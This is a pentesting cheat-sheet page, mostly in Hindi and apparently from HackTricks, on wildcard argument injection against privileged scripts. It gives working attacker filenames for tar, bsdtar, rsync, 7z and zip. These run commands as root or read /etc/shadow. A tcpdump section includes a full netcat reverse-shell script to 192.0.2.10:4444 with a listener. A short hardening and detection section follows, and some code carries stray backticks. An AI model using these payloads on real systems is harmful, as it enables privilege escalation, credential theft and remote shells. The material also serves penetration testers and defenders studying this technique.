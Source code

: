 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **argument injection** तब होती है जब एक विशेषाधिकार प्राप्त स्क्रिप्ट एक Unix बाइनरी जैसे `tar`, `chown`, `rsync`, `zip`, `7z`, … को एक अनकोटेड वाइल्डकार्ड जैसे `*` के साथ चलाती है।  
> चूंकि शेल वाइल्डकार्ड को बाइनरी को निष्पादित करने से **पहले** विस्तारित करता है, एक हमलावर जो कार्यशील निर्देशिका में फ़ाइलें बना सकता है, वह फ़ाइल नाम तैयार कर सकता है जो `-` से शुरू होते हैं ताकि उन्हें **डेटा के बजाय विकल्पों के रूप में** व्याख्यायित किया जा सके, प्रभावी रूप से मनमाने ध्वजों या यहां तक कि आदेशों को तस्करी करने में सक्षम हो।  
> यह पृष्ठ 2023-2025 के लिए सबसे उपयोगी प्राइमिटिव, हाल के शोध और आधुनिक पहचान को एकत्र करता है।

## chown / chmod

आप `--reference` ध्वज का दुरुपयोग करके **किसी भी फ़ाइल के मालिक/समूह या अनुमति बिट्स की कॉपी कर सकते हैं**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
जब रूट बाद में कुछ ऐसा निष्पादित करता है:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` इंजेक्ट किया गया है, जिससे *सभी* मेल खाने वाले फ़ाइलें `/root/secret``file` के स्वामित्व/अनुमतियों को विरासत में लेती हैं।

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (संयुक्त हमला)।
विवरण के लिए क्लासिक DefenseCode पेपर भी देखें।

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** फ़ीचर का दुरुपयोग करके मनमाने कमांड निष्पादित करें:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
एक बार जब रूट चलाता है जैसे `tar -czf /root/backup.tgz *`, `shell.sh` रूट के रूप में निष्पादित होता है।

### bsdtar / macOS 14+

हाल के macOS पर डिफ़ॉल्ट `tar` (जो `libarchive` पर आधारित है) `--checkpoint` को लागू नहीं करता है, लेकिन आप **--use-compress-program** ध्वज के साथ कोड-निष्पादन प्राप्त कर सकते हैं जो आपको एक बाहरी संकुचनकर्ता निर्दिष्ट करने की अनुमति देता है।
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
जब एक विशेषाधिकार प्राप्त स्क्रिप्ट `tar -cf backup.tar *` चलाती है, तो `/bin/sh` शुरू होगा।

---

## rsync

`rsync` आपको कमांड-लाइन फ्लैग के माध्यम से रिमोट शेल या यहां तक कि रिमोट बाइनरी को ओवरराइड करने की अनुमति देता है जो `-e` या `--rsync-path` से शुरू होते हैं:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
यदि रूट बाद में `rsync -az * backup:/srv/` के साथ निर्देशिका को संग्रहित करता है, तो इंजेक्ट किया गया ध्वज आपके शेल को दूरस्थ पक्ष पर उत्पन्न करता है।

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` मोड)।

---

## 7-Zip / 7z / 7za

यहां तक कि जब विशेषाधिकार प्राप्त स्क्रिप्ट *रक्षात्मक रूप से* वाइल्डकार्ड को `--` के साथ पूर्ववर्ती करती है (विकल्प पार्सिंग को रोकने के लिए), 7-Zip प्रारूप **फाइल सूची फ़ाइलों** का समर्थन करता है, फ़ाइल नाम को `@` के साथ पूर्ववर्ती करके। इसे एक सिम्लिंक के साथ मिलाकर आपको *मनमाने फ़ाइलों को एक्सफिल्ट्रेट* करने की अनुमति मिलती है:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
यदि रूट कुछ इस तरह निष्पादित करता है:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip `root.txt` (→ `/etc/shadow`) को फ़ाइल सूची के रूप में पढ़ने का प्रयास करेगा और बाहर निकल जाएगा, **stderr पर सामग्री प्रिंट करते हुए**।

---

## zip

`zip` ध्वज `--unzip-command` का समर्थन करता है जो *शब्दशः* सिस्टम शेल को पास किया जाता है जब संग्रह का परीक्षण किया जाएगा:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject करें फ्लैग को एक तैयार की गई फ़ाइल नाम के माध्यम से और प्रतीक्षा करें कि विशेषाधिकार प्राप्त बैकअप स्क्रिप्ट `zip -T` (परीक्षण संग्रह) को परिणामस्वरूप फ़ाइल पर कॉल करे।

---

## अतिरिक्त बाइनरी जो वाइल्डकार्ड इंजेक्शन के प्रति संवेदनशील हैं (2023-2025 त्वरित सूची)

निम्नलिखित कमांड्स को आधुनिक CTFs और वास्तविक वातावरण में दुरुपयोग किया गया है। पेलोड हमेशा एक *फाइल नाम* के रूप में बनाया जाता है जो एक लिखने योग्य निर्देशिका के अंदर होता है जिसे बाद में वाइल्डकार्ड के साथ संसाधित किया जाएगा:

| बाइनरी | दुरुपयोग करने के लिए फ्लैग | प्रभाव |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → मनमाना `@file` | फ़ाइल सामग्री पढ़ें |
| `flock` | `-c <cmd>` | कमांड निष्पादित करें |
| `git`   | `-c core.sshCommand=<cmd>` | SSH के माध्यम से git के जरिए कमांड निष्पादन |
| `scp`   | `-S <cmd>` | ssh के बजाय मनमाना प्रोग्राम उत्पन्न करें |

ये प्राइमिटिव *tar/rsync/zip* क्लासिक्स की तुलना में कम सामान्य हैं लेकिन शिकार करते समय जांचने लायक हैं।

---

## tcpdump रोटेशन हुक (-G/-W/-z): argv इंजेक्शन के माध्यम से RCE

जब एक प्रतिबंधित शेल या विक्रेता रैपर उपयोगकर्ता-नियंत्रित फ़ील्ड (जैसे, "फाइल नाम" पैरामीटर) को बिना सख्त उद्धरण/मान्यता के जोड़कर `tcpdump` कमांड लाइन बनाता है, तो आप अतिरिक्त `tcpdump` फ्लैग्स को चुराने में सक्षम होते हैं। `-G` (समय-आधारित रोटेशन), `-W` (फाइलों की संख्या सीमित करें), और `-z <cmd>` (पोस्ट-रोटेट कमांड) का संयोजन मनमाने कमांड निष्पादन का परिणाम देता है जैसे कि उपयोगकर्ता tcpdump चला रहा है (अक्सर उपकरणों पर root)।

पूर्व शर्तें:

- आप `tcpdump` को पास किए गए `argv` को प्रभावित कर सकते हैं (जैसे, `/debug/tcpdump --filter=... --file-name=<HERE>` के माध्यम से)।
- रैपर फ़ाइल नाम क्षेत्र में स्पेस या `-`-पूर्वकृत टोकन को साफ नहीं करता है।

क्लासिक PoC (एक लिखने योग्य पथ से एक रिवर्स शेल स्क्रिप्ट निष्पादित करता है):
```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
--file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```
Details:

- `-G 1 -W 1` पहले मिलान वाले पैकेट के बाद तुरंत घुमाने के लिए मजबूर करता है।
- `-z <cmd>` हर घुमाव पर पोस्ट-घुमाव कमांड चलाता है। कई बिल्ड `<cmd> <savefile>` निष्पादित करते हैं। यदि `<cmd>` एक स्क्रिप्ट/इंटरप्रेटर है, तो सुनिश्चित करें कि तर्क प्रबंधन आपके पेलोड से मेल खाता है।

No-removable-media variants:

- यदि आपके पास फ़ाइलें लिखने के लिए कोई अन्य प्राइमिटिव है (जैसे, एक अलग कमांड रैपर जो आउटपुट रीडायरेक्शन की अनुमति देता है), तो अपनी स्क्रिप्ट को एक ज्ञात पथ में डालें और `-z /bin/sh /path/script.sh` या `-z /path/script.sh` को प्लेटफ़ॉर्म अर्थशास्त्र के अनुसार ट्रिगर करें।
- कुछ विक्रेता रैपर हमलावर-नियंत्रित स्थानों पर घुमाते हैं। यदि आप घुमाए गए पथ को प्रभावित कर सकते हैं (सिंबलिंक/डायरेक्टरी ट्रैवर्सल), तो आप `-z` को ऐसा सामग्री निष्पादित करने के लिए निर्देशित कर सकते हैं जिसे आप पूरी तरह से नियंत्रित करते हैं बिना बाहरी मीडिया के।

Hardening tips for vendors:

- कभी भी उपयोगकर्ता-नियंत्रित स्ट्रिंग्स को सीधे `tcpdump` (या किसी भी उपकरण) को सख्त अनुमति सूचियों के बिना न दें। उद्धरण और मान्य करें।
- रैपर में `-z` कार्यक्षमता को उजागर न करें; tcpdump को एक निश्चित सुरक्षित टेम्पलेट के साथ चलाएं और अतिरिक्त ध्वजों को पूरी तरह से अस्वीकार करें।
- tcpdump विशेषाधिकारों को छोड़ें (cap_net_admin/cap_net_raw केवल) या एक समर्पित अप्रिविलेज्ड उपयोगकर्ता के तहत AppArmor/SELinux संकुचन के साथ चलाएं।

## Detection & Hardening

1. **महत्वपूर्ण स्क्रिप्ट में शेल ग्लोबिंग को निष्क्रिय करें**: `set -f` (`set -o noglob`) वाइल्डकार्ड विस्तार को रोकता है।
2. **तर्कों को उद्धृत या एस्केप करें**: `tar -czf "$dst" -- *` *सुरक्षित* नहीं है — `find . -type f -print0 | xargs -0 tar -czf "$dst"` को प्राथमिकता दें।
3. **स्पष्ट पथ**: `/var/www/html/*.log` का उपयोग करें `*` के बजाय ताकि हमलावर ऐसे भाई-फाइलें न बना सकें जो `-` से शुरू होती हैं।
4. **कम से कम विशेषाधिकार**: बैकअप/रखरखाव कार्यों को संभव हो तो रूट के बजाय एक अप्रिविलेज्ड सेवा खाते के रूप में चलाएं।
5. **निगरानी**: Elastic का पूर्व-निर्मित नियम *Potential Shell via Wildcard Injection* `tar --checkpoint=*`, `rsync -e*`, या `zip --unzip-command` के तुरंत बाद एक शेल चाइल्ड प्रोसेस की तलाश करता है। EQL क्वेरी को अन्य EDRs के लिए अनुकूलित किया जा सकता है।

---

## References

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (last updated 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (Dec 18 2024)
* GTFOBins – [tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
* FiberGateway GR241AG – [Full Exploit Chain](https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/)

{{#include ../../banners/hacktricks-training.md}}
